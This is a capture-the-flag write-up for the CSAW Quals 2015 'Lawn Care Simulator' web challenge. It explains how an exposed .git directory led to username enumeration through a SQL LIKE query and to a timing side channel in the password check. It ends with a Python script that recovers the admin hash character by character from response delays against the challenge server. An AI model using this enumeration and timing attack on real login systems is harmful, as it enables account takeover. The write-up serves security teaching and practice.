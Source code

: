 ```yaml
---
layout: post
title: "CSAW Quals 2015 Lawn Care Simulator"
date: 2015-09-23 19:17:29 -0400
author: [swappage]
comments: true
categories: [csaw]
---
```


### Solved by Swappage

This 200 points challenge was a web application running a nicely useless javascript for "growing lawn", and was providing all the typical features available in a standard web application, including registration and login.

The objective of this challenge was to login as admin.

## Clone all the things ##

By looking at the index source code we could notice that the version number, present in the bottom corner of the page, was calculated based on the git repository hash.

{% img center /images/2015/csaw/lawn/version.png %}

```javascript
<script>
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
</script>
```

Since the .git directory is available in the webroot, we can crawl it and download the entire repository, to obtain the source code and spot bugs.
To make my life easier i used DVCS-Pillage: https://github.com/evilpacket/DVCS-Pillage
to automate the whole process, and at the end i had all the website sources available to me, except.. of course for the flag.

    -rw-r--r--  1 root root  109 Sep 19 00:46 ___HINT___
    -rw-r--r--  1 root root 2406 Sep 19 00:46 index.html
    -rw-r--r--  1 root root 1410 Sep 19 00:46 jobs.html
    drwxr-xr-x  2 root root 4096 Sep 19 14:50 js
    -rw-r--r--  1 root root  918 Sep 19 00:46 premium.php
    -rw-r--r--  1 root root 2937 Sep 19 00:46 sign_up.php
    -rw-r--r--  1 root root   78 Sep 19 01:51 test.php
    -rw-r--r--  1 root root  780 Sep 19 00:46 validate_pass.php


## The bugs ##
In the php code there were two bugs:

The first was in the registration page *sign_up.php*

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
}
else {
?>
```
As it's possible to notice the query used to verify if a user already existed, used a *LIKE* statement, this means that by submitting a username value with the character %, we could disclose the already registered users; of course, since the registration was still closed, the only user we were expecting to find as already registered was the admin username, which happened to be ~~FLAG~~.

{% img center /images/2015/csaw/lawn/user_exists.png %}

The second one was in the way the login process was handled by the validate_pass.php

```php
<?
function validate($user, $pass) {
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];

    if (strlen($pass) != strlen($hash))
        return False;

    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
?>
```

What the script implements as a *protection against brute force attacks* is faulty, and leave the script open to a byte by byte bruteforce attack on the hash, which wasn't calculated by the server, but directly by the javascript on the client side.

By analyzing the timings of the server response it was possible to guess the characters that were composing the md5 hash for the ~~FLAG~~ user.

I built this horrible python script to do the job and retrieve the flag.

```python
#!/usr/bin/python

import datetime
import time
import requests
from itertools import combinations
import itertools

letters = ['a', 'b', 'c', 'd', 'e', 'f', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9']

hash = ""
padding = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
delay = 300

current_milli_time = lambda: int(round(time.time() * 1000))

while 1:
    for c in itertools.combinations_with_replacement(letters, 1):
#       time.sleep(0.5)
        start = current_milli_time()

        stringa = (''.join(c))
        print "[*] bruteforcing MD5 with: " + hash + stringa + padding
        r = requests.post("http://54.175.3.248:8089/premium.php", data={'username': '~~FLAG~~', 'password': hash + stringa + padding})
        #print(r.status_code, r.reason)

        stop = current_milli_time()
        elapsed = stop - start
        print elapsed
        if elapsed > delay:
            start = datetime.datetime.now()
            r = requests.post("http://54.175.3.248:8089/premium.php", data={'username': '~~FLAG~~', 'password': hash + stringa + padding})
            stop = datetime.datetime.now()
            if elapsed > delay:
                print "[*] character found: " + stringa
                hash += stringa
                padding = padding[:-1]
                delay = delay + 300
                print padding
                print hash
                break

```

